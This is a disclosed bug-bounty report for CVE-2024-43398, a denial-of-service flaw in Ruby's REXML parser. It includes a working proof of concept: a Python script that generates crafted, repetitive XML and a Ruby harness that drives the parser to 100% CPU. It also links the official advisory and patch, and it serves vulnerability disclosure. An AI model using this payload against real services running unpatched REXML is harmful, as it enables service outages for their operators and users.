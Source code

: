 # CVE-2024-43398: DoS vulnerability in REXML

## Report Details
- **Report ID**: 3002543
- **URL**: https://hackerone.com/reports/3002543
- **State**: Closed
- **Severity**: low
- **Submitted**: 2025-02-19T23:18:15.903Z
- **Disclosed**: 2025-04-27T16:57:59.590Z

## Reporter
- **Username**: l33thaxor
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
This is a vulnerability due to poor performance when parsing specially crafted xml with REXML.

Here is the exploit script in python:

```
start = ""
middle = "<a xml:b=\"\" b=\"\">" + "<D>" * 1
end = ""
print(start)
COUNT = 2000
for _ in range(COUNT):
	print(middle)
print(end)
```

redirect this to a file and then pass this file to the stdin of the following ruby program:

```
require 'rexml/document'

include REXML

puts "Reading input from stdin..."
input = ARGF.read
puts "Parsing input..."
REXML::Document.new input
puts "Done!"
```

on the vulnerable version of rexml, this program takes a very long time to exit and the CPU usage jumps to 100% when parsing the document.

Here is a link to ruby-lang.com where this vulnerability is documented: https://www.ruby-lang.org/en/news/2024/08/22/dos-rexml-cve-2024-43398/ and here is a link to the patch on github: https://github.com/ruby/rexml/commit/7cb5eaeb221c322b9912f724183294d8ce96bae3

## Impact

DOS via uncontrolled resource consumption.

## Attachments
No attachments
